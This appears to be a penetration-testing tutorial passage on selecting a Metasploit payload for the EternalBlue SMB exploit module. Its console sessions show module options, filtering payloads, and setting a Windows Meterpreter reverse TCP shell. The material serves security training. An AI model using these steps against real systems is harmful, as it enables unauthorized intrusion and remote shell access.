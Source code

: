 ***

## <mark style="color:red;">Selecting Payloads</mark>

<mark style="color:green;">**MSF - Select Payload**</mark>

<pre class="language-shell-session" data-full-width="true"><code class="lang-shell-session"><strong>msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
</strong>
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:&#x3C;path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs



msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
</code></pre>

After selecting a payload, we will have more options available to us.

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):
```

As we can see, by running the `show payloads` command within the Exploit module itself, msfconsole has detected that the target is a Windows machine, and such only displayed the payloads aimed at Windows operating systems.
